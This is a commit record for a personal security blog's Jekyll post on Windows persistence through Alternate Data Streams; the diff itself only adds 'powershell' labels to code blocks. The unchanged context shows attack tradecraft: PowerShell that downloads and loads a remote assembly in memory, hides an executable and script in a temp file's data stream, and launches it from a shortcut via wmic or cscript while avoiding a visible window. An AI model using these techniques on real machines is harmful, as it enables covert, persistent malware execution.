

Before and after one commit to ricardojoserf/ricardojoserf.github.io, a Jekyll site: the page built from _posts/2024-2-1-persistencewithads.md, in a window 1280 px wide and 1400 px high, scrolled down 1248 px. Shown: the whole window at 91% size, without its empty margins (118-1161 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Update 2024-2-1-persistencewithads.md

````diff
--- a/_posts/2024-2-1-persistencewithads.md
+++ b/_posts/2024-2-1-persistencewithads.md
@@ -62,7 +62,7 @@ The code is quite straightforward but I would like to explain some parts of it.
 
 The file will be created with the value of the hostname variable and with the extension ".tmp". This is because it will be stored in the user's temporary folder, where there are many files with the same extension:
 
-```
+```powershell
 $Dir = "$($env:USERPROFILE)\Appdata\Local\temp"
 $File = "$($env:COMPUTERNAME).tmp"
 ```
@@ -71,7 +71,7 @@ $File = "$($env:COMPUTERNAME).tmp"
 
 To make the process simpler I used SharpADS, which can be loaded in memory because it is coded in C#, but you can just use Powershell. To load the file in memory you can use:
 
-```
+```powershell
 $bytes = (New-Object System.Net.WebClient).DownloadData("$Url/$SharpADS")
 $assembly = [System.Reflection.Assembly]::Load($bytes)
 $entryPointMethod = $assembly.GetTypes().Where({ $_.Name -eq 'Program' }, 'First').GetMethod('Main', [Reflection.BindingFlags] 'Static, Public, NonPublic')
@@ -80,7 +80,7 @@ $entryPointMethod.Invoke($null, (, [string[]] ('clear', "$Dir\$File")))
 
 Next, you can use it to create an Alternate Data Stream which in this case will contain the bytes of the icon file:
 
-```
+```powershell
 $entryPointMethod.Invoke($null, (, [string[]] ('write', "$Dir\$File","$ADSico","$Url/$IcoFile")))
 ```
 
@@ -101,21 +101,21 @@ wmic process call create C:\path\file.tmp:ADS.exe
 ```
 Translated to the Powershell shortcut creation, we would set the following values in a shortcut object $Shortcut:
 
-```
+```powershell
 $Shortcut.TargetPath = "wmic"
 $Shortcut.Arguments = "process call create $Dir\$File`:$ADSexe"
 ```
 
 This works but there is a window popping up which looks suspicious. It can be improved if the parameter "/output:CLIPBOARD" is added:
 
-```
+```powershell
 $Shortcut.TargetPath = "wmic"
 $Shortcut.Arguments = "/output:CLIPBOARD process call create $Dir\$File`:$ADSexe"
 ```
 
 After many tests, the best alternative I found (for now) is using again the VBScript, but this time calling it with cscript in TargetPath and the file in the Arguments parameter:
 
-```
+```powershell
 $Shortcut.TargetPath = "cscript"
 $Shortcut.Arguments = "$Dir\$File`:$ADSvbs"
 ```
````
